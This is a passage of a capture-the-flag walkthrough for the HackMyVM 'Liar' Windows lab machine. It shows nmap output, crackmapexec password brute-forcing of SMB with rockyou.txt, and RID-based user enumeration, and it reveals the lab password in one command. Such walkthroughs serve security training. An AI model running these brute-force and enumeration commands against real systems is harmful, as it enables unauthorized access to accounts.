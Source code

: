 ```bash
Host script results:
|_nbstat: NetBIOS name: WIN-IURF14RBVGV, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:4b:24:d5 (Oracle VirtualBox virtual NIC)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-10-06T10:40:32
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.45 seconds
```

The target runs an SMB and a Microsoft IIS web server. When we access the web application, the default page looks like a letter and has a name at the end.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/Liar/Scans/Service]
└─$ curl http://10.0.2.30            
Hey bro,
You asked for an easy Windows VM, enjoy it.

- nica    
```

## Exploitation

We can use this name to attempt a brute-force attack against the SMB service.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/Liar/Scans/Service]
└─$ crackmapexec smb 10.0.2.30 -u nica -p /usr/share/wordlists/rockyou.txt | grep +       
SMB                      10.0.2.30       445    WIN-IURF14RBVGV  [+] WIN-IURF14RBVGV\nica:<REDACTED>  
```

The brute-force attack was successful and we obtained the password of Nica. We can use these credentials to brute force users' RIDs on the target.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/Liar/Scans/Service]
└─$ crackmapexec smb 10.0.2.30 -u nica -p hardcore --rid-brute | grep SidTypeUser
SMB                      10.0.2.30       445    WIN-IURF14RBVGV  500: WIN-IURF14RBVGV\Administrador (SidTypeUser)
SMB                      10.0.2.30       445    WIN-IURF14RBVGV  501: WIN-IURF14RBVGV\Invitado (SidTypeUser)
SMB                      10.0.2.30       445    WIN-IURF14RBVGV  503: WIN-IURF14RBVGV\DefaultAccount (SidTypeUser)
SMB                      10.0.2.30       445    WIN-IURF14RBVGV  504: WIN-IURF14RBVGV\WDAGUtilityAccount (SidTypeUser)
SMB                      10.0.2.30       445    WIN-IURF14RBVGV  1000: WIN-IURF14RBVGV\nica (SidTypeUser)
SMB                      10.0.2.30       445    WIN-IURF14RBVGV  1001: WIN-IURF14RBVGV\akanksha (SidTypeUser)
```
